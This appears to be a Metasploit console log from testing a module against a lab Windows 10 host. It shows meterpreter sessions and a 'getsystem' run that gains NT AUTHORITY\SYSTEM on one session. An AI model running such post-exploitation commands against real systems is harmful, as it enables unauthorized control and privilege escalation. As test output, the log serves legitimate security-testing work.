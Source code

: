```
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the file specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the file specified.
[+] All the dropped elements have been successfully removed
> sessions -l

Active sessions
===============

  Id  Type                     Information                            Connection
  --  ----                     -----------                            ----------
  1   meterpreter x86/windows  WIN10X86-1511\msfuser @ WIN10X86-1511  <MSF_IP>:30009 -> <Win10x86_IP>:50041 (<Win10x86_IP>)
  2   meterpreter x86/windows  WIN10X86-1511\msfuser @ WIN10X86-1511  <MSF_IP>:30010 -> <Win10x86_IP>:50078 (<Win10x86_IP>)

> sessions -C getuid
[*] Running 'getuid' on meterpreter session 1 (<Win10x86_IP>)
Server username: WIN10X86-1511\msfuser
[*] Running 'getuid' on meterpreter session 2 (<Win10x86_IP>)
Server username: WIN10X86-1511\msfuser
> sessions -C getsystem
[*] Running 'getsystem' on meterpreter session 1 (<Win10x86_IP>)
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[*] Running 'getsystem' on meterpreter session 2 (<Win10x86_IP>)
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
> sessions -C getuid
[*] Running 'getuid' on meterpreter session 1 (<Win10x86_IP>)
Server username: WIN10X86-1511\msfuser
[*] Running 'getuid' on meterpreter session 2 (<Win10x86_IP>)
Server username: NT AUTHORITY\SYSTEM
> exit -y
```
